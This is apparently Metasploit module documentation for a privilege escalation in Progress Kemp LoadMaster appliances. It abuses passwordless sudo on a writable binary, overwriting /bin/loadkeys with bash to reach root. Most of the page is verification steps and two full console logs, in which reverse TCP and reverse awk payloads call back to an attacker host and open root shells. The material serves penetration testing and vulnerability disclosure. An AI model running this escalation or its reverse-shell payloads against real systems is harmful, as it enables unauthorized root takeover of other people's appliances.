 ## Vulnerable Application
Progress Kemp LoadMaster up to at least 7.2.59.2.22338.  The vendor is aware of this "feature," but
has chosen not to change the behavior.  It was originally paired with CVE-2024-1212, but as this
privilege escalation was not patched when CVE-2024-1212 was, we split it into its own module.
This exploit/feature allows the default `bal` user to run several binaries with the `sudo` prefix
that will elevate without prompting for a password.  As the configuration is based on filename and
the `bal` user has write permissions to these files, the `bal` user can simply write over the existing
binary with one of their choosing, then prefix it with `sudo` and launch the binary with `root`
privileges.
This module defaults to overwrite `/bin/loadkeys` with `/bin/bash`, though other binaries would work,
too.

For more details on the vulnerability:  
https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster/

https://support.kemptechnologies.com/hc/en-us/articles/23878931058445-LoadMaster-Security-Vulnerability-CVE-2024-1212

A trial VM which the exploit should work against out of the box can be downloaded from:
https://sso.kemptechnologies.com/register/kemp/vlm

The AWS marketplace also has free trials which can be used. These require the "session management" to be enabled in order for the exploit to work. Since by default the admin WUI is behind basic auth.
https://aws.amazon.com/marketplace/pp/prodview-kgh3dsfk7qcnw

Because this is an appliance, there are limited commands available for command-based payloads.

## Verification Steps
1. Install the application
1. Start msfconsole
1. Gain a session on a Progress Kemp Loadmaster target as the `bal` user
1. Do: `use exploits/linux/local/progress_kemp_loadmaster_sudo_privesc_2024`
1. Do: `set SESSION <session>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `root` user.

## Scenarios

### LoadMaster 7.2.59.0.22007
#### Metasploit Binary Dropper Payload
```msf
msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > show options

Module options (exploit/linux/local/progress_kemp_loadmaster_sudo_privesc_2024):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   SESSION        1                yes       The session to run this module on
   TARGET_BINARY  /bin/loadkeys    yes       The path for a binary file that has permission to auto-elevate.
   WRITABLE_DIR   /tmp             yes       A directory where we can write files


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Dropper



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found 3 indicators this is a KEMP product
[!] The service is running, but could not be validated.
[*] Execute dropper
[*] Moving /bin/loadkeys to /tmp/.xcglzfitgpg
[*] Moving /tmp/.feooibtpp to /bin/loadkeys
[*] Running /bin/loadkeys
[+] Deleted /tmp/.feooibtpp
[*] Meterpreter session 8 opened (10.5.135.201:4444 -> 10.5.134.141:28858) at 2024-05-03 12:05:12 -0500
[*] Moving /tmp/.xcglzfitgpg to /bin/loadkeys
[+] /bin/loadkeys returned to original contents

meterpreter > sysinfo
Computer     : 10.5.134.141
OS           : SuSE 7.2 (Linux 4.14.137)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > 


```

#### Reverse Bash Command Payload
```msf
msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > show options

Module options (exploit/linux/local/progress_kemp_loadmaster_sudo_privesc_2024):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   SESSION        1                yes       The session to run this module on
   TARGET_BINARY  /bin/loadkeys    yes       The path for a binary file that has permission to auto-elevate.
   WRITABLE_DIR   /tmp             yes       A directory where we can write files


Payload options (cmd/unix/reverse_awk):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found 3 indicators this is a KEMP product
[!] The service is running, but could not be validated.
[*] Execute command
[*] Moving /bin/loadkeys to /tmp/.twqrvjasafa
[*] Moving /bin/bash to /bin/loadkeys
[*] Running payload command
[*] Command shell session 7 opened (10.5.135.201:4444 -> 10.5.134.141:16589) at 2024-05-03 12:02:00 -0500
[*] 
[*] Moving /tmp/.twqrvjasafa to /bin/loadkeys
[+] /bin/loadkeys returned to original contents

ls
azurelinuxagent
bin
cgroup
dev
dmZPnkPUPoV
etc
initial_setup.sh
lib
lib64
lost+found
mnt
one4net
openssl
proc
root
sbin
sks
sys
tmp
user
usr
var
touch tempfile
ls -l
total 51
drwxr-xr-x   5 root root  1024 Mar 22  2023 azurelinuxagent
.
.
.
-rw-r--r--   1 root root     0 May  3 17:02 tempfile
.
.
drwxr-xr-x  12 root root  1024 Mar 21 17:29 var
```